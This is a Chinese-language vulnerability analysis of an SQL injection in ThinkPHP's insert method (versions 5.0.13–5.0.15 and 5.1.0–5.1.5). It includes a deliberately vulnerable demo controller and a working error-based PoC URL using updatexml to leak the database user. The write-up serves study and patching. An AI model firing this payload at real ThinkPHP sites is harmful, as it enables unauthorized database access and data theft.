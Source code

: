 5.0.13 \<= Thinkphp \<= 5.0.15 & 5.1.0 \<= Thinkphp \<= 5.1.5
=============================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert**
方法注入）。本次漏洞存在于 **Builder** 类的 **parseData**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

**5.0.13\<=ThinkPHP\<=5.0.15** 、 **5.1.0\<=ThinkPHP\<=5.1.5** 。

三、复现过程
------------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.15 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.15"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->insert(['username' => $username]);
            return 'Update success';
        }
    }

在 **application/database.php** 文件中配置数据库相关信息，并开启
**application/config.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );

### poc

    http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId25.png)

### 漏洞分析

![2.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId27.png)

首先在官方发布的 **5.0.16**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId28.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **\$this-\>builder** 的 **insert**
方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql**
类，代码如下：

![4.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId29.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的
**\$this-\>builder-\>insert()** 最终调用的是 **Builder** 类的 **insert**
方法。在 **insert** 方法中，我们看到其调用 **parseData**
方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据
**\$val** 进行了拼接返回。我们的恶意数据存储在 **\$val\[1\]**
中，虽经过了 **parseKey**
方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId30.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的
**insert** 方法，直接通过替换字符串的方式，将 **\$data** 填充到 **SQL**
语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId31.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch**
结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察
**ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec**
进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP**
内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格**
，这也是为什么 **ThinkPHP** 官方没有对 **exp**
的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId32.png)

### 漏洞修复

![8.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](/Users/aresx/Documents/VulWiki/.resource/5.0.13<=Thinkphp<=5.0.15sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln

